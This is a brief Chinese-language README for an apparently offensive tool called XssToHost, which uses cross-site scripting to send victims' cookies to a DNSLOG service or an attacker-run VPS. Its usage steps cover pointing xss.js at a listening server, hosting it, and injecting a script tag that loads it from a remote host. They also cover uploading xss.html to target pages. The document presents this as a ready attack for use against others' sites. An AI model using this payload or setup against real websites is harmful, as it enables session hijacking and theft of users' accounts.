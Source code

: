 # XssToHost
通过js跨域请求到DNSLOG平台或自己的VPS主机，并实现cookie外带  

## Usage 
1.将xss.js中的http地址改为带有监听功能的服务器，比如DNSLOG或者开了监听的VPS  
2.将xss.js部署在自己的VPS上  
3.当可以打xss时，可用

```html
<script src="http://exmaple.com/xss.js"></script>
```

方式远程加载此文件  
4.如遇到可上传HTML并解析的情况，可将xss.html上传到目标页面，远程加载xss.js  

